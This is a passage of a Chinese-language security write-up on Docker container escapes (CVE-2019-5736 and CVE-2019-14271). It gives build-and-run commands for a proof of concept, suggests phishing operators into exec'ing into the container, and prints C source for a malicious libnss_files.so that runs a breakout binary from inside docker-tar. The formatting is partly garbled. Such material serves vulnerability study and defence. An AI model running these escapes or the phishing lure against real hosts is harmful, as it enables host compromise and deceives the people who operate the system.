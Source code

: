 ### 漏洞利用

  *   *   *   * 

    
    
    #攻击者在容器内执行CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go #编译POCchmod 777 main./main #执行Payload

### 后续可结合钓鱼邮件等手法，等待运维人员去通过exec访问容器的/bin/bash。使用如下命令：

  * 

    
    
    sudo docker exec -it  cafa20cfb0f9 /bin/sh

> ref:
>
> https://github.com/Frichetten/CVE-2019-5736-PoC
>
> https://www.anquanke.com/post/id/170762

##  **Docker-cp漏洞致容器逃逸(CVE-CVE-2019-14271)**

### 利用条件

  * Docker Version == 19.03 && <19.03.1

### 漏洞原理

Docker采用Golang编写，更具体一些，存在漏洞的Docker版本采用Go
v1.11编译。在这个版本中，包含嵌入式C代码（`cgo`）的某些package会在运行时动态加载共享库。这些package包括`net`及`os/user`，`docker-
tar`都用到了这两个package，会在运行时动态加载一些`libnss_*.so`库。正常情况下，程序库会从宿主机的文件系统中加载，然而由于`docker-
tar`会`chroot`到容器中，因此会从容器的文件系统中加载这些库。这意味着`docker-tar`会加载并执行受容器控制的代码。

### 漏洞POC

恶意so：libnss_files.so by C

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include ...  
    #define ORIGINAL_LIBNSS "/original_libnss_files.so.2"#define LIBNSS_PATH "/lib/x86_64-linux-gnu/libnss_files.so.2"  
    bool is_priviliged();  
    __attribute__ ((constructor)) void run_at_link(void){     char * argv_break[2];     if (!is_priviliged())           return;  
         rename(ORIGINAL_LIBNSS, LIBNSS_PATH);     fprintf(log_fp, "switched back to the original libnss_file.so");  
         if (!fork())     {  
               // Child runs breakout           argv_break[0] = strdup("/breakout");           argv_break[1] = NULL;           execve("/breakout", argv_break, NULL);     }     else           wait(NULL); // Wait for child  
         return;}bool is_priviliged(){     FILE * proc_file = fopen("/proc/self/exe", "r");     if (proc_file != NULL)     {           fclose(proc_file);           return false; // can open so /proc exists, not privileged     }     return true; // we're running in the context of docker-tar}
